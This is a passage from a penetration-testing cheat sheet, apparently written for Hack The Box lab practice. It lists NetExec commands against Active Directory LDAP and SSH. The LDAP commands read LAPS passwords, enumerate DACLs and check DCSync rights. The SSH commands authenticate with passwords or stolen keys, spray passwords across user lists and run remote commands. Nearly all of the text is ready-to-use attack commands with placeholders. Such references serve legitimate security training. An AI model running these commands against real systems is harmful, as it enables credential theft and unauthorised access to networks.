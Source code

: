 {% tab title="User Info" %}
```bash
nxc ldap <target> -u <user> -p <pass> -M whoami -o USER=<user>
```
{% endtab %}

{% tab title="Zone Transfer" %}
```bash
nxc ldap <target> -u <user> -p <pass> -M get-network -o ALL=true
```
{% endtab %}

{% tab title="LAPS" %}
```bash
nxc ldap <ip> -u <user> -p <pass> -M laps
```
{% endtab %}

{% tab title="DACL" %}
{% code overflow="wrap" %}
```bash
nxc ldap <ip> -u <user> -p <pass> -M daclread -o TARGET=<user> ACTION=read

# DCSync rights
nxc ldap <ip> -u <user> -p <pass> -M daclread -o TARGET_DN="DC=inlanefreight,DC=htb" ACTION=read RIGHTS=DCSync
```
{% endcode %}
{% endtab %}
{% endtabs %}

## SSH

{% tabs %}
{% tab title="Auth" %}
```bash
# Password authentication
nxc ssh <target> -u <user> -p <pass>

# Key authentication
nxc ssh <target> -u <user> -p '' --key-file root_id_rsa

# Port specification
nxc ssh <target> -u <user> -p <pass> --port 2222
```
{% endtab %}

{% tab title="Password Spray" %}
{% code overflow="wrap" %}
```bash
nxc ssh <target> -u userfile -p passwordfile --no-bruteforce --continue-on-success
```
{% endcode %}
{% endtab %}

{% tab title="RCE" %}
```bash
nxc ssh <target> -u <user> -p <pass> -x <command>
```
{% endtab %}
